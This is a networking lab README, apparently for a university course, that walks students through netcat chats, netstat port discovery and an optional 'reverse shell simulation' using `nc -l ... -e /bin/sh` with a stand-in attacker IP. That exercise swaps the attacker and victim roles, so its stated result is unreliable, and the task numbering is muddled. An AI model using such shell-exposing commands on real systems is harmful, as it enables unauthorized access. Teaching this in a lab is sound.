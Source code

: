# Network Programming Lab #2 - Command-line Networking Tools

Welcome to this lab on network programming! In this exercise, you will explore essential command-line tools such as `nc` (netcat) and `netstat` to understand how networking works at a low level. The goal is to establish communication between processes, analyze network connections, and document your findings.

## Prerequisites

You have `nc` (netcat) installed on our server. You can check this by running:

```sh
nc -h
```

## Tasks

### Task 1: Simple Chat with Netcat

1. Start a listening server:
   ```sh
   nc -l <port_number>
   ```
Use a random port number. You may want to use your student id number to avoid port conflicts (I don't know if you studentt id number is less than 65535?)
   - What does this nc command do? Try to understand its function.
2. Connect to the server from other terminal (cmd shell on windows). Figure out the command needed to connect to the listener by reading the `nc` manual, i. e.: `man nc` and connect to the port you used before. 
3. Type messages in both terminals and observe how they are sent and received.
4. Experiment by connecting from another machine if possible.

_____________________________

### Task 2: Connect to the port opened by your fellow student

1. Use `netstat` tool to find out which other ports are open. Try to connect to someone's port.
It's better if the listener on that port is not busy, so coordinate the connection with your fellow student.

2. You still have `nc` running, but you connected to it and chatted with yourself. Now kill your client (ctrl+c in that console) or the server and in second case, run the server again, so that someone could connect to you.

Do `man netstat` to figure out how to know on which ports different `netstat` programs are listening.
Ask loudly, who listens to some port, and if you can connect to it. Then try to chat with your fellow.

For the next task you need to have nc on your Windows lab machine.

_______________________________

### Installing Netcat on Windows

Windows does not include Netcat by default, but there is `ncat`, which is part of the [Nmap](https://nmap.org/ncat/) package. However, to get a standalone executable, download a portable version from [eternallybored.org](https://eternallybored.org/misc/netcat/).
Unpack, etc., there you'll find `nc.exe` and a 64bit version too.

To use it:
```powershell
nc.exe -l <port_number>
```
To connect:
```powershell
nc.exe <server_ip> <port_number>
```

### Installing Netcat on macOS

If you want to use your own mac, then:

macOS includes Netcat by default. You can verify by running:
```sh
nc -h
```
If needed, you can install an alternative version using Homebrew:
```sh
brew install netcat
```

______________________________

### Task 3: Connect form your lab or personal computer to server's port.

1. Run `nc -l <someport>` on the server, if it's not run. It should not have clients currently connected to it, if it has, do `ctrl+c` to kill it (that will terminate incoming connection) and start again.
2. Now, connect to that port from your local Windows or macOS machine.


### Task 4: Run listening nc on your local Windows/Mac machine and try to connect to it from the server (the.hell.am)
1. Do you understand why you can't do it? Write about it below:

______________________________

### Task 4: Finding Local Machine IP and Chatting with a Neighbor

1. Find out the IP address of your lab machine:
   - **Windows**: Open PowerShell or Command Prompt and run:
     ```powershell
     ipconfig
     ```
   - **macOS/Linux**: Run:
     ```sh
     ip a
     ```
2. Share your IP address with a classmate and have them do the same.
3. Decide who will listen and who will connect.
4. Start a listener:
   ```sh
   nc -l <port_number>
   ```
5. The other person should connect using the appropriate `nc` command.
6. Start chatting and document your findings.

________________________________

### Task 4: Reverse Shell Simulation (Optional, Advanced, but that's the most funny thing to do today)

> **Warning**: This task is for educational purposes only. Never use this technique on unauthorized systems.

1. On one machine (attacker), set up a listening session:
   ```sh
   nc -l <port_number> -e /bin/sh
   ```
2. On another machine (victim), connect to the attacker's listening port:
   ```sh
   nc <attacker_ip> <port_number>
   ```
3. If successful, the attacker will gain shell access to the victim's machine.
4. Reflect on the security implications and how this could be prevented.

________________________________

## Submission Instructions

- After completing the tasks, edit this `README.md` file and write down your observations under each task. There is an empty line like this: `________________`
- Document the commands you used and any challenges you faced.
- Commit and push your changes to the repository.

---

**Example Submission Format:**

### Task 1: Simple Chat with Netcat

- Used `nc -l 12345` on one terminal and figured out the correct connection command.
- Successfully sent messages between terminals.
- Also connected from another machine on the network.

### Task 2: Connecting to the Student Server

- Listened on the server and connected from a local machine.

### Task 3: Finding Local Machine IP and Chatting with a Neighbor

- Found my IP address using `ipconfig` (Windows) / `ip a` (Linux/macOS).
- Shared IP with a neighbor and successfully established a chat connection.

### Task 4: Discover Open Ports with Netstat

- Found `nc` listening on port 12345 using `netstat -tulnp`.
- Discovered other open ports like SSH (22) and web server (80).

### Task 5: Reverse Shell Simulation (if attempted)

- Experimented with `nc -l 4444 -e /bin/sh`.
- Learned about the security risks associated with open ports.

---

Good luck, and have fun exploring networking basics!

